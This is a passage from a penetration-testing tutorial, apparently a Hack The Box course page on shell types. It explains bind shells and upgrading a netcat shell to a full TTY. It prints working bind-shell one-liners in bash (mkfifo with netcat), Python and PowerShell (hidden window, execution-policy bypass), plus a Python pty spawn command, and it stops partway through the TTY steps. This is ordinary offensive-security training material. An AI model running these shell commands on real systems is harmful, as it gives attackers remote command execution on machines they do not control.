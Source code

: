 #### Bind Shell Command

Once again, we can utilize [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/) to find a proper command to start our bind shell.

Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Code: python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Code: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

IMPORTANT

#### Upgrading TTY

Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.

There are multiple methods to do this. For our purposes, we will use the `python/stty` method. In our `netcat` shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:

  Types of Shells

```shell-session
0xscary@htb[/htb]$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:

  Types of Shells
